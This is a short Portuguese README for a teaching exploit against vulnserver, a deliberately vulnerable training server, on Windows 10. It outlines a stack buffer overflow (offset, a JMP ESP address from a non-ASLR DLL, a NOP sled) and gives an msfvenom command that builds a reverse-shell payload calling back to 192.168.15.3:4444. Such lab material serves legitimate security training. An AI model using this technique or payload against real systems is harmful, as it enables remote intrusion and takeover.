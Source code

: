 # Exploit - Buffer Overflow Vulnserver

Exploit didático para explorar o vulnserver rodando no Windows 10 Enterprise (x64) e ganhar reverse shell.

## Resumo:

- 2007 bytes para sobrescrever o registrador EAX.
- 4 bytes para sobrescrever o registrador EIP (escrito em little endian) com um endereço de retorno JMP ESP da DLL netserver.dll do próprio software, que não possui proteção ASLR.
- 32 No-Operations para garantir a perfeita execução do payload.
- 351 bytes de payload para realizar a conexão reversa com 192.168.15.3:4444.

## Gerando o mesmo payload no MSFVENOM
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.15.3 lport=4444 exitfunc=thread -b "\x00" -f c
```
